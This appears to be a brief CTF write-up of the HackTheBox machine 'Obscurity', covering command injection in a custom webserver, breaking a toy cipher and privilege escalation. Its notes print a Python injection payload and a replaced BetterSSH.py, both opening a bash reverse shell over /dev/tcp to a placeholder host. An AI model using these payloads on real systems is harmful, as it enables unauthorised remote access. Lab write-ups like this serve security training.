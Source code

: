 ```yaml
---
categories:
- CTF
image:
  path: https://img.youtube.com/vi/_znY-mNj2ps/0.jpg
layout: post
media_subpath: /assets/posts/2020-05-09-obscurity-hackthebox
tags:
- command injection
- crypto
- hackthebox
- linux
title: Obscurity @ HackTheBox
---
```


Obscurity is a 30-point Linux machine on HackTheBox that involves exploiting a command injection in a custom webserver, breaking a simple cipher and abusing file system permissions to get root.

{% youtube _znY-mNj2ps %}

## Notes

Command injection payload:

```
';__import__("os").system("bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'")+'
```

Retrieving the key:

```
python3 SuperSecureCrypt.py -d -i out.txt -k "`cat check.txt`" -o key
```

Decrypting the ssh password:

```
python3 SuperSecureCrypt.py -d -i passwordreminder.txt -k alexandrovich -o /dev/shm/x
```

Replaced BetterSSH.py:

```python
import os
os.system("bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'")
```